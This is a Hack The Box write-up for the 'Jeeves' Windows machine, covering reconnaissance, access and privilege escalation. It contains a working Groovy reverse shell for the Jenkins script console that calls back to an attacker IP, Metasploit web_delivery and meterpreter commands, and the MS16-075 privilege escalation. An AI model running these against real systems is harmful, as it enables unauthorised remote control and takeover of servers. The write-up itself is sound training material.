 ```yaml
---
title: "Jeeves - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Jeeves
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Jeeves
![](https://kar0nx.github.io/assets/images/writeup/709059a710d3d6ff1ba32bf0729ecbb8.webp)

## Reconnaissance

IP: 10.10.10.63
### NMAP

```
nmap -T4 -A -p- 10.10.10.63
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-08 03:30 EST
Nmap scan report for 10.10.10.63
Host is up (0.031s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone
Running (JUST GUESSING): Microsoft Windows 2008|Phone (89%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (89%), Microsoft Windows 8.1 Update 1 (85%), Microsoft Windows Phone 7.5 or 8.0 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h59m28s, deviation: 0s, median: 4h59m27s
| smb2-time: 
|   date: 2025-03-08T13:31:29
|_  start_date: 2025-03-08T13:27:44
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   31.19 ms 10.10.14.1
2   31.29 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 139.34 seconds
```

The scan reveals that the machine has 4 open ports: 80- HTTP (Microsoft IIS 10.0), 135- Microsoft Windows RPC, 445- SMB, 50000- HTTP (Jetty 9.4.z-SNAPSHOT)
## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308093115.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308093236.png)

I visit the website running on port 80 but can't find anything useful. I begin by exploring directories with ffuf. Found /askjeeves under port 50000

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.63:50000/FUZZ
```

```
http://10.10.10.63:50000/askjeeves/
```

## Gaining Access

When exploring jenkins, I find that it has a script console and it is running Groovy language, so let's search for groovy reverse shell:
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

```
String host="10.10.14.15";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

set nc and execute command:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308094813.png)

We have shell. Grab first flag under:

```
c:\Users\kohsuke\Desktop>type user.txt
```

## Privilege Escalation

I will start with windows exploit suggester:
type systeminfo in our shell and copy output to new file: sys.txt

```
python2 windows-exploit-suggester.py --database 2025-03-08-mssb.xls --systeminfo /root/sys.txt 
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308100629.png)

The results suggest that the target is vulnerable to MS16-075, to confirm type

```
whoami /priv
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308094952.png)

I will use metasploit web_delivery module to set up reverse shell

```
use multi/script/web_delivery
options
set lhost tun0
set srvhost tun0
set lport 1337
show targets
set target 2
set payload windows/meterpreter/reverse_tcp
run
```

Once the reverse shell is triggered, I obtain a meterpreter session:

```
sessions 1
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102150.png)

Escalating Privileges with MS16-075.
I search for the MS16-075 exploit in Metasploit and run it:

```
background
search ms16-075
use 4
set lhost tun0
set lport 1337
run
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102523.png)

The exploit grants me SYSTEM-level access. After gaining elevated privileges, I locate the hm.txt file, which contains a message indicating the flag is elsewhere:

```
c:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250308102855.png)

https://www.malwarebytes.com/blog/101/2015/07/introduction-to-alternate-data-streams
I then discover that the flag is stored in an Alternate Data Stream (ADS). To retrieve it, I use the following command:

```
more < hm.txt:root.txt
```